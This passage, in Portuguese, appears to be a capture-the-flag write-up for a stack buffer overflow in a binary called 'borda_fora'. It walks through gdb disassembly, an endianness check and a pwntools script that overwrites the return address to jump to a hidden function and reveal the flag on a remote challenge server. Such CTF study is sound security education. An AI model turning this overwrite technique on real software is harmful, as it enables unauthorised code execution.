 Podemos observar que o resto do input foi para o stack também, e quando o `main` dá `retn`, ele dá `pop` ao valor que está no stack e armazena em `$rip` (*instruction pointer*). Como nós introduzimos `XXXXXXX (0x5858585858....)`, o programa não consegue continuar pois não existe nenhuma instrução nesse endereço de memória. 

**Portanto, como é que utilizamos isto a nosso favor?** Bem, é só enviarmos o endereço da função que queremos executar (`funcao_nada_suspeita`), portanto o `$rip` vai ter um valor válido e o programa continuará e mostrará a flag.

Se executarmos `disas funcao_nada_suspeita` no gdb:
```assembly
Dump of assembler code for function funcao_nada_suspeita:
   0x0000000000400757 <+0>:	push   rbp
   0x0000000000400758 <+1>:	mov    rbp,rsp
   .....
```
Sabemos que a função começa em `0x0000000000400757`, mas 1º precisamos de saber se o binário utiliza little-endian ou big-endian, por isso utilizamos o comando `file`:
```bash
$ file borda_fora
borda_fora: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3063c552547e261d582f295694edb3ac275265e3, not stripped
``` 
"LSB" significa Least significant Byte, portanto é little-endian, temos que enviar nesta ordem: `\x57\x07\x40\x00\x00\x00\x00\x00`.

Para isto, fiz um simples script em python, utilizando a lib `pwntools`.

```python
import pwn
import sys

elf = pwn.ELF("./borda_fora")

p = 0
if 'local' in sys.argv:
    p = elf.process()
else:
    p = pwn.remote('193.136.166.70', '4000')

fun = pwn.p64(elf.symbols["funcao_nada_suspeita"]) #lsb address
segv_start = 88 # aKa where SEGV starts
payload = b"".join([
    b"A"*segv_start,
    fun,
])

#in case we want to debug w gdb
#pwn.context.terminal = ['alacritty', '-e', 'sh', '-c']
#pwn.gdb.attach(p, gdbscript='''
#b somewhere...
#r < payload
#''')

p.recv()
p.sendline(payload)
p.recv()
p.interactive()

```

